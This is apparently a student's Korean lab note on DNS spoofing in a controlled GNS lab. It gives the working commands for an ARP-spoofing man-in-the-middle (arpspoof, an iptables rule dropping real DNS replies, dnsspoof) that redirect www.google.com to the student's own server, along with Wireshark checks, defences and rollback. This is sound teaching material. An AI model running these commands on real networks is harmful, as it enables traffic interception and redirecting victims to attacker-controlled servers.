

# DNS 스푸핑 실습

## 한 줄 요약

ARP Spoofing으로 MITM 위치를 확보한 뒤, DNS 응답을 위조해 피해자가 정상 도메인을 입력해도 공격자가 지정한 웹 서버로 접속하게 만드는 실습이다.

---

## 실습 목표

- ARP Spoofing과 DNS Spoofing의 연결 이해
- DNS Query / Response 관찰
- 위조 DNS Response가 피해자 접속 경로를 바꾸는 과정 확인
- DNS Spoofing 성공과 웹 서비스 노출 문제를 분리해서 확인
- DNS Spoofing 방어 포인트 이해

---

## 실습 환경

내 실습 기준 IP는 다음과 같다.

| 장비      | 역할                           | IP             |
| ------- | ---------------------------- | -------------- |
| Windows | Victim / Client              | `172.16.0.100` |
| Ubuntu  | Web Server                   | `172.16.0.150` |
| DNS1    | Authoritative DNS / Resolver | `172.16.0.151` |
| DNS2    | Secondary DNS                | `172.16.0.152` |
| Kali    | Attacker / Wireshark         | `172.16.0.200` |
| Router  | Gateway                      | `172.16.0.254` |

> [!note] 실습 메모
> PDF 예시 IP와 내 실제 실습 IP는 다를 수 있다. 내 Obsidian 노트에서는 위 표의 IP를 기준으로 정리한다.
>
> 시나리오 A에서 Windows Victim은 기존 설정 그대로 공용 DNS `1.1.1.1`, `8.8.8.8`을 사용한다.
> 이때 `DNS1 = 172.16.0.151`, `DNS2 = 172.16.0.152`는 `hacking.com` 정상 DNS 구성용 서버이고, 피해자가 질의하는 Resolver는 아니다.

---

## 실습 시나리오 구분

두 실습은 공격 원리는 같고, DNS 질의가 지나가는 경로만 다르다.

| 구분 | 시나리오 A: 공용 DNS 경유 | 시나리오 B: 내부 Resolver 직접 사용 |
| --- | --- | --- |
| Victim DNS | `1.1.1.1`, `8.8.8.8` | `172.16.0.151` |
| 정상 DNS 위치 | 외부 공용 DNS | 같은 LAN의 정상 Resolver / Cache DNS |
| DNS 트래픽 경로 | Victim → Gateway → 외부 DNS | Victim → DNS Server |
| ARP Spoofing 대상 | Victim ↔ Gateway | Victim ↔ DNS Server |
| 변하지 않는 핵심 | 정상 응답보다 위조 응답을 먼저 믿게 함 | 정상 응답보다 위조 응답을 먼저 믿게 함 |

이 노트의 `0.`부터 `6.`까지 본선 절차는 먼저 실습한 **시나리오 A**를 기준으로 적었다.
오늘 추가한 실습은 아래 `변형 실습: 내부 Resolver를 직접 쓰는 경우`에서 따로 정리한다.

---

## 공격 흐름

```text
1. Kali가 ARP Spoofing으로 MITM 위치 확보
2. 피해자의 DNS Query 관찰
3. 정상 DNS Response를 차단하거나 지연
4. dnsspoof가 위조 DNS Response 전송
5. 피해자가 공격자가 지정한 IP로 접속
```



---

## 0. 이 실습의 네트워크 경로

시나리오 A에서 Windows Victim의 DNS 설정은 공용 DNS `1.1.1.1`, `8.8.8.8`이다.
따라서 `www.google.com` 질의는 같은 LAN의 `DNS1 172.16.0.151`로 가지 않고, Gateway를 지나 외부 Resolver로 나간다.

```text
Windows Victim
→ Gateway 172.16.0.254
→ 외부 DNS Resolver 1.1.1.1 / 8.8.8.8
```

그래서 PDF 61쪽처럼 `Victim ↔ Gateway` 사이를 ARP Spoofing하면, Kali가 DNS Query와 정상 DNS Response가 오가는 경로에 들어갈 수 있다.

```powershell
ipconfig /all
nslookup www.google.com
```

여기서 `DNS Servers`가 `1.1.1.1`, `8.8.8.8`로 보이면 시나리오 A 구조와 맞다.

---

## 1. 이번 실습 문제 재정의

시나리오 A는 `DNS1 172.16.0.151`을 피해자 Resolver로 쓰는 실습이 아니다.

최종 목표는 다음과 같다.

```text
1. Windows Victim은 기존 공용 DNS `1.1.1.1`, `8.8.8.8`을 그대로 사용한다.
2. Victim이 `www.google.com`을 조회한다.
3. Kali는 Victim ↔ Gateway 경로에서 MITM 위치를 확보한다.
4. Kali가 `www.google.com = 172.16.0.150`이라는 위조 DNS 응답을 보낸다.
5. Victim이 `www.google.com`을 입력했을 때 내 Web Server의 화면이 뜨게 만든다.
```

즉, 이 실습에서 먼저 증명해야 할 것은:

```text
www.google.com
→ 172.16.0.150
```

으로 잘못 해석되게 만들 수 있는가이다.

---

## 2. 명령 흐름

이 절차는 **통제된 실습망에서 관찰용으로만** 사용한다.

```bash
sudo sysctl -w net.ipv4.ip_forward=1
# Kali가 중간에 들어가도 패킷을 계속 전달하게 한다.
# 이 설정이 없으면 피해자 통신이 끊겨 단순 장애처럼 보일 수 있다.


sudo iptables -I FORWARD -p udp --sport 53 -j DROP
# 정상 DNS 서버에서 오는 DNS Response를 실습 목적으로 차단한다.
# 위조 응답이 먼저 받아들여지는 과정을 더 명확히 관찰하기 위한 장치다.
# 통제된 실습에서만 써야 한다.


sudo arpspoof -i eth0 -t 172.16.0.100 172.16.0.254
# Victim의 ARP Cache를 오염시켜 Gateway 방향 트래픽이 Kali를 지나가게 만든다.

#정상 DNS Response까지 Kali를 지나가게 하려면 양방향 MITM이 필요할 수 있다.
#피해자 → Gateway 방향만 속이면 요청은 볼 수 있어도 응답 경로가 Kali를 지나가지 않을 수 있다.

#특히 `iptables -I FORWARD -p udp --sport 53 -j DROP` 규칙으로 정상 DNS 응답을 차단하려면, 정상 DNS 응답이 Kali의 `FORWARD` 경로를 지나가야 한다.
#따라서 실습 토폴로지에 따라 양 방향 ARP Spoofing은 선택이 아니라 필수일 수 있다.


sudo arpspoof -i eth0 -t 172.16.0.254 172.16.0.100
# Gateway가 Victim 방향 트래픽도 Kali로 보내게 해 양방향 MITM을 만든다.
```
> [!warning] `eth0`는 예시다. 실제 Kali에서 Victim/Gateway와 같은 네트워크에 붙은 인터페이스 이름을 확인한 뒤 바꿔야 한다.

---

## 3. 실습 타깃 도메인

이번 실습의 타깃 도메인은 `www.google.com`이다.
사용자는 브라우저에 `www.google.com`을 입력하지만, Kali는 위조 DNS Response로 이를 `172.16.0.150`에 연결시킨다.
최종 목표는 그 결과 내 Web Server의 화면이 보이게 만드는 것이다.

> [!note] 브라우저 시연 주의
> `www.google.com`은 DNS Spoofing 성공 확인용으로는 적절하지만, 브라우저 최종 시연은 HTTPS / HSTS / HTTPS-first 동작 때문에 불안정할 수 있다.
> 이번 실습의 목표는 그대로 `www.google.com`을 속이는 것이지만, 브라우저에서 페이지가 안 뜰 때는 DNS 실패와 웹 계층 문제를 분리해서 본다.

```text
입력한 도메인:
www.google.com

위조 DNS 응답:
www.google.com = 172.16.0.150

최종 목표 화면:
172.16.0.150에서 제공하는 내 Web Server 페이지
```

`spoof.txt`라는 이름은 예시다. 파일명은 자유지만, `dnsspoof -f`에 넘기는 경로와 정확히 일치해야 한다.

```bash
cat spoof.txt
sudo dnsspoof -i eth0 -f spoof.txt
```
목적:

- 특정 도메인을 어떤 IP로 위조할지 정한다.
- 실습에서는 공격자 서버 대신 관찰용 Web Server IP를 넣어 결과를 확인할 수 있다.

위 명령은 `spoof.txt`에 적힌 도메인에 대해 위조 DNS Response를 보낸다.

---

## Wireshark 관찰 포인트

이 절은 본선 실행 순서가 아니라, 패킷으로 성공 여부를 확인할 때 보는 참고 항목이다.

유용한 필터:

```wireshark
dns
dns.flags.response == 0
dns.flags.response == 1
dns.qry.name contains "google"
dns.a
udp.port == 53
ip.addr == 172.16.0.100
```

확인할 필드:

| 필드 | 의미 |
| --- | --- |
| Transaction ID | Query와 Response 매칭 |
| Query Name | 요청한 도메인 |
| Answer | 응답 IP |
| TTL | 캐시 지속 시간 |
| Source IP | 응답을 보낸 서버 |
| Destination IP | 피해자 |
| Response Time | 정상 응답보다 먼저 왔는지 추정 |

관찰의 핵심은 다음 질문이다.

```text
피해자가 물어본 도메인에 대해
누가
어떤 IP를
먼저 답했는가?
```

`ping`은 빠른 확인용이고, 실습 증거로는 위조 DNS Response의 Answer와 그 뒤 Victim이 실제로 연결을 시도한 목적지 IP를 함께 보는 편이 더 강하다.

---

## 4. 성공 확인

### 4-1. DNS 검증 목표

먼저 DNS Spoofing 자체가 성공했는지 확인한다.

```powershell
nslookup www.google.com
ping www.google.com
```

기대 결과:

```text
nslookup www.google.com
→ Answer: 172.16.0.150

ping www.google.com
→ 172.16.0.150으로 응답
```
> [!warning] `ping`은 응답 성공 여부보다 이름이 어떤 IP로 해석됐는지 확인하는 용도로 본다.

> [!success] Wireshark에서도 `www.google.com` 질의에 대한 위조 DNS Response의 Answer가 `172.16.0.150`으로 보이면 DNS Spoofing은 성공한 것이다.

### 4-2. 연결 경로 확인

그다음 Victim이 실제로 어느 IP로 연결을 시도하는지 본다.

```powershell
curl -v http://www.google.com
```

기대 결과:

```text
Trying 172.16.0.150...
```

이 줄이 보이면 Victim은 위조된 DNS 결과를 사용해 `172.16.0.150`으로 접속을 시도하고 있다.

Web Server 내부 확인과 Victim 접근 확인은 따로 봐야 한다.

```bash
curl -I http://127.0.0.1:8080/
```

```powershell
curl -v http://172.16.0.150:8080/
```

`127.0.0.1:8080` 응답은 Ubuntu Web Server 로컬 확인이다.
이것만으로는 Windows Victim이 실제로 접근 가능한지 확정할 수 없으므로, Victim에서 `172.16.0.150:8080` 접근도 별도로 확인한다.

### 4-3. 판정

| 단계 | 성공 기준 |
| --- | --- |
| DNS Spoofing 성공 | `www.google.com`이 `172.16.0.150`으로 해석된다. |
| 네트워크 연결 성공 | Victim이 `172.16.0.150`으로 TCP 연결을 시도한다. |
| 웹 시연 성공 | 의도한 도메인으로 접속했을 때 내 Web Server 페이지가 보인다. |

DNS가 맞게 동작해도 웹 접속은 실패할 수 있다.

```text
DNS 문제:
도메인이 예상 IP로 해석되지 않음

HTTP 문제:
도메인은 맞는 IP로 해석되지만, 그 IP의 80번 포트에서 서비스가 안 뜸
```

실제 계정 정보나 세션 값은 노트에 저장하지 않는다.

---

## 5. 웹 시연 정리

### 5-1. 두 목표를 분리해서 본다

```text
DNS 검증 목표:
ping www.google.com
→ 172.16.0.150

브라우저 시연 목표:
http://www.google.com
→ 내 Web Server 페이지 표시
```

`www.google.com`은 DNS 검증용으로는 적절하지만, 브라우저 최종 시연은 HTTPS / HSTS / HTTPS-first 동작 때문에 불안정할 수 있다.
브라우저에서 페이지가 안 뜬다고 해서 곧바로 DNS Spoofing이 실패한 것은 아니다.

### 5-2. 적용 과정에서 확인한 것

기존 `boot.war` 배포 상태에서는 애플리케이션 경로가 `/boot/`였다.

```text
http://www.google.com:8080/boot/
→ CARE 페이지 표시
```

`ROOT.war`로 배포하면 Tomcat 루트 컨텍스트 `/`에서 응답할 수 있다.

```bash
curl -I http://127.0.0.1:8080/
```

```text
HTTP/1.1 200
```

루트 컨텍스트로 전환할 때 기존 `boot.war`와 자동 생성된 `boot/` 디렉터리를 함께 정리하지 않으면 `/boot/`와 `/`가 동시에 남을 수 있다.

반면 현재 실습에서 Tomcat을 80번에 직접 바인딩하려는 시도는 권한 문제로 실패했다.
80번은 privileged port라 일반 Tomcat 서비스 계정이 그대로 열기 어렵다.

### 5-3. 최종 적용 방식

최종 목표는 사용자가 `http://www.google.com`만 입력해도 내 Web Server 페이지가 보이게 하는 것이다.

```bash
[WEB 서버]

경로 문제:
boot.war → ROOT.war
→ `/boot/` 제거

포트 문제:
	실습 중 일시 규칙:
	sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
	
	재부팅 뒤에도 유지해야 할 때만:
	sudo netfilter-persistent save

Tomcat 내부 8080 유지
→ 외부 80번 요청을 8080으로 전달
```

즉, 최종 방향은 다음과 같다.

1. 애플리케이션은 `ROOT.war`로 배포하고, 기존 `boot.war`와 `boot/`는 정리해 루트 경로 `/`만 남긴다.
2. Tomcat은 내부적으로 8080을 유지한다.
3. 외부에서 들어오는 80번 요청은 8080으로 넘긴다.

`ROOT.war`는 경로 문제를 해결하고, NAT `REDIRECT`는 포트 문제를 해결한다. 둘은 서로 다른 계층의 문제다.

>[! warning] 실습 중에는 일시 규칙만으로 먼저 확인하고, 재부팅 뒤에도 유지할 필요가 있을 때만 영구 저장한다.
`sudo netfilter-persistent save`는 `netfilter-persistent`가 설치된 환경에서만 의미가 있다.

같은 규칙을 여러 번 `-A`로 넣으면 중복될 수 있으므로, 추가 전후로 현재 상태를 확인한다.

```bash
sudo iptables -t nat -C PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
sudo iptables -t nat -L PREROUTING -n -v --line-numbers
```

`-C`는 같은 규칙이 이미 있으면 성공하고, 없으면 실패하므로 중복 확인용으로 쓴다.

80 → 8080 `REDIRECT`는 외부에서 들어오는 패킷에 적용된다.
따라서 Web Server에서 `127.0.0.1`만 확인해서는 이 규칙이 검증되지 않고, Victim에서 `http://www.google.com` 또는 `http://172.16.0.150`으로 확인해야 한다.

---

## 5월 18일 변형 실습: DNS서버(내부 Resolver)를 직접 쓰는 경우

오늘 실습은 공격 원리는 그대로 두고, Victim이 실제 정상 DNS Resolver `172.16.0.151`을 직접 사용하게 한 변형이다.
변형 시나리오가 더 늘어나 세 번째 갈래까지 생기면, 이 노트 안에 계속 붙이기보다 별도 실습 노트 분리를 검토한다.

### 핵심 차이

```text
지난 실습:
Windows 172.16.0.100
→ Gateway 172.16.0.254
→ 외부 DNS Resolver 1.1.1.1 / 8.8.8.8

오늘 실습:
Windows 172.16.0.100
→ DNS Server 172.16.0.151
```

DNS 서버 `172.16.0.151`은 공격자 서버가 아니라 정상적인 resolver / cache DNS다.
따라서 Kali는 DNS 서버를 바꾸는 것이 아니라, **Victim과 정상 DNS 서버 사이**에 들어가 위조 응답을 먼저 믿게 만든다.

### DNS 서버 준비

Ubuntu DNS 서버는 resolver / cache DNS로 동작해야 한다.

```conf
options {
    directory "/var/cache/bind";
    recursion yes;
    allow-query { any; };
    allow-recursion { any; };
    listen-on { any; };
    listen-on-v6 { any; };
};
```
> [!note]- BIND 옵션 해설
>
> | 설정                             | 뜻                                                                                                                                                                                                                                         |
> | ------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
> | `directory "/var/cache/bind";` | BIND가 상대 경로 파일을 해석할 때 기준으로 삼는 작업 디렉터리다. 캐시 파일이나 일부 존 파일 경로가 상대 경로일 때 여기 기준으로 본다.                                                                                                                                                          |
> | `recursion yes;`               | 이 서버가 직접 모르는 이름도 대신 찾아주는 **recursive resolver** 역할을 하게 한다. `google.com`처럼 자기 존이 아닌 이름도 외부 DNS를 따라가며 찾아준다.                                                                                                                                 |
> | `allow-query { any; };`        | 이 서버에 일반 DNS 질의를 보낼 수 있는 클라이언트 범위를 정한다. `any`면 누구든 질의 자체는 보낼 수 있다. 기본값도 `allow-query` 미설정 시 모든 호스트 허용이다. ([bind9.readthedocs.io](https://bind9.readthedocs.io/en/v9.18.21/reference.html?utm_source=openai))                              |
> | `allow-recursion { any; };`    | **재귀 질의**를 허용할 클라이언트 범위를 정한다. `any`면 누구든 이 서버를 resolver처럼 쓸 수 있다. 생략하면 BIND 기본은 대체로 `localnets; localhost;` 쪽으로 좁아진다. ([bind9.readthedocs.io](https://bind9.readthedocs.io/en/v9.18.4/reference.html?utm_source=openai))                  |
> | `listen-on { any; };`          | IPv4에서 어떤 로컬 주소로 들어오는 DNS 요청을 받을지 정한다. `any`면 서버의 모든 IPv4 인터페이스에서 듣는다.                                                                                                                                                                    |
> | `listen-on-v6 { any; };`       | IPv6에서 어떤 로컬 주소로 들어오는 DNS 요청을 받을지 정한다. `any`면 서버의 모든 IPv6 인터페이스에서 듣는다. BIND 문서는 `listen-on`과 `listen-on-v6`로 질의를 받을 인터페이스를 정한다고 설명한다. ([bind9.readthedocs.io](https://bind9.readthedocs.io/en/v9.18.21/reference.html?utm_source=openai)) |
>
> ```text
> allow-query
> = "너 나한테 질문은 해도 돼?"
>
> allow-recursion
> = "내가 너 대신 모르는 답까지 찾아다 줘도 돼?"
> ```
>
> 둘은 다릅니다.
> 예를 들어 어떤 클라이언트는 네 서버가 직접 권한을 가진 `zzaphub.com` 존은 물어볼 수 있어도, `google.com` 같은 외부 이름을 재귀 조회하는 건 막힐 수 있습니다.
>
> 그래서 네 실습에서 `allow-recursion { any; };`를 넣은 이유는:
> - 실습 중 헷갈림 줄이기
> - Windows가 확실히 resolver 기능을 쓰게 만들기
> - ACL 기본값 의존을 없애기
>
> 반대로 보안 관점에서는 `any`가 넓습니다. 실제 운영이면 보통 이렇게 좁힙니다.
>
> ```conf
> allow-recursion { localhost; localnets; };
> ```
>
> 또는 더 명시적으로:
>
> ```conf
> acl lab_clients {
>     172.16.0.0/24;
> };
>
> options {
>     recursion yes;
>     allow-recursion { lab_clients; localhost; };
> };
> ```
>
> 짧게 정리하면:
>
> ```text
> allow-recursion 없이도 될 수 있다.
> 왜냐면 BIND 기본값이 같은 로컬 네트워크 클라이언트의 재귀 질의를 허용할 수 있기 때문이다.
>
> 하지만 실습 노트에는 넣는 편이 더 명확하다.
> "이 서버를 resolver로 쓰게 하겠다"는 의도가 코드에 드러나기 때문이다.
> ```

정상 동작 확인:

```bash
dig @172.16.0.151 google.com
dig @172.16.0.151 google.com
```

같은 도메인을 반복 질의했을 때 응답이 오고, Windows에서 `nslookup www.google.com`의 DNS 서버가 `172.16.0.151`로 보이면 Victim이 내부 Resolver를 쓰는 상태다.

### ARP Spoofing 대상이 바뀌는 이유

오늘 DNS Query는 Gateway가 아니라 DNS Server로 직접 간다.
따라서 Kali가 끼어들어야 하는 상대도 바뀐다.

```text
틀린 대상:
Web Server 172.16.0.150 ↔ DNS Server 172.16.0.151

맞는 대상:
Windows Victim 172.16.0.100 ↔ DNS Server 172.16.0.151
```

`172.16.0.150`은 최종 Web Server일 뿐, DNS 질의 경로에 있는 장비가 아니다.

### 명령 흐름

```bash
sudo sysctl -w net.ipv4.ip_forward=1

sudo iptables -I FORWARD -p udp --sport 53 -j DROP

sudo arpspoof -i eth0 -t 172.16.0.100 172.16.0.151
sudo arpspoof -i eth0 -t 172.16.0.151 172.16.0.100

sudo dnsspoof -i eth0 -f spoof.txt
```

정상 DNS 서버가 실제로 존재하므로, 위조 응답만 보내고 정상 응답을 차단하지 않으면 정상 Google 응답이 먼저 채택될 수 있다.
그래서 이 변형에서도 정상 DNS Response 차단 규칙이 중요하다.

### 성공 확인

```powershell
ipconfig /flushdns
nslookup www.google.com
ping www.google.com
```

기대 결과:

```text
DNS Server Address:
172.16.0.151

www.google.com
→ 172.16.0.150
```

이번 변형에서 꼭 기억할 것:

```text
시나리오 A:
Victim ↔ Gateway

시나리오 B:
Victim ↔ DNS Server
```

---

## 참고: 내부 DNS 서버 구성 확인

이 절은 `hacking.com` 정상 DNS 구성을 확인하기 위한 참고다.
이번 `www.google.com` Spoofing 경로의 필수 단계는 아니며, 시나리오 A에서는 Victim도 이 DNS 서버를 Resolver로 사용하지 않는다.

내 실습에서 `DNS1 = 172.16.0.151`, `DNS2 = 172.16.0.152`, `Web Server = 172.16.0.150`으로 둘 경우, 존 파일 핵심은 다음처럼 읽힌다.

```dns
@       IN      NS      ns1.hacking.com.
@       IN      NS      ns2.hacking.com.

ns1     IN      A       172.16.0.151
ns2     IN      A       172.16.0.152

@       IN      A       172.16.0.150
www     IN      A       172.16.0.150
```

의미:

```text
ns1.hacking.com = DNS1
ns2.hacking.com = DNS2
hacking.com = Web Server
www.hacking.com = Web Server
```

정상 구성 확인은 먼저 이렇게 나눠서 본다.

```bash
sudo named-checkconf
sudo named-checkzone hacking.com /etc/bind/db.hacking.com
```

```powershell
nslookup www.hacking.com 172.16.0.151
```

---

## 실패 시 확인할 항목

- [ ] GNS 토폴로지가 실제로 켜져 있는가?
- [ ] 피해자가 실제로 UDP/53 DNS를 쓰는가?
- [ ] 브라우저 DoH가 켜져 있지 않은가?
- [ ] 브라우저 캐시를 `Ctrl + Shift + Delete`로 비웠는가?
- [ ] OS DNS cache를 `ipconfig /flushdns`로 비웠는가?
- [ ] `spoof.txt` 도메인 형식이 정확한가?
- [ ] ARP Spoofing이 성공했는가?
- [ ] IP Forwarding이 켜져 있는가?
- [ ] 정상 DNS 응답 차단 규칙이 실습 의도대로 적용됐는가?
- [ ] 테스트 사이트가 HTTPS/HSTS를 강제하지 않는가?
- [ ] Wireshark에서 DNS Query가 실제로 보이는가?
- [ ] 피해자가 접속한 IP가 예상한 lab web server IP인가?
- [ ] Victim에서 `http://172.16.0.150:8080/` 접근이 되는가?
- [ ] DNS 응답 IP는 맞는데 웹 접속만 실패하는가?
- [ ] 브라우저 기본 포트 80과 Tomcat 8080을 혼동하지 않았는가?

`ipconfig /flushdns`는 Windows OS DNS cache를 비우는 명령이고, 브라우저 캐시는 별개다.
그래서 둘 다 따로 확인해야 한다.

---

## 방어 후 검증

- DAI / DHCP Snooping을 적용하고 위조 ARP가 차단되는지 확인한다.
- HTTPS / HSTS를 적용하고 인증서 경고 또는 HTTPS 강제가 기대대로 동작하는지 확인한다.
- DoH / DoT 또는 허용 Resolver 정책을 적용하고 DNS 가시성이 어떻게 바뀌는지 비교한다.
- DNS cache를 비운 뒤 다시 질의해 이전 결과가 남아 있지 않은지 확인한다.

---

## 6. 실습 종료 / 롤백

Kali에서 실습용 설정을 되돌린다.

```bash
sudo iptables -D FORWARD -p udp --sport 53 -j DROP
```

```bash
sudo pkill arpspoof
sudo pkill dnsspoof
```

```bash
sudo sysctl -w net.ipv4.ip_forward=0
```

80번 요청을 8080으로 넘기는 실습용 NAT 규칙까지 추가했다면, 그 규칙도 제거한다.

```bash
sudo iptables -t nat -D PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
sudo iptables -S FORWARD
sudo iptables -t nat -S PREROUTING
```

이 NAT 규칙을 `sudo netfilter-persistent save`로 영구 저장했다면, 삭제 후에도 다시 저장해야 재부팅 뒤에 되살아나지 않는다.

```bash
sudo netfilter-persistent save
```

Windows Victim에서는 캐시를 비우고 현재 상태를 다시 확인한다.

```powershell
arp -d *
ipconfig /flushdns
arp -a
```
> [!warning] ARP Spoofing 종료 후에도 Victim의 ARP Cache가 잠깐 오염된 상태로 남을 수 있으므로, 필요하면 ARP Cache를 삭제하고 Gateway MAC이 정상으로 돌아왔는지 확인한다.

---

## 관련 노트

- [[DNS 스푸핑]]
- [[ARP 스푸핑]]
- [[Dynamic ARP Inspection]]
- [[HTTP 로그인 평문 노출]]
- MITM 정리 예정
- Wireshark 정리 예정
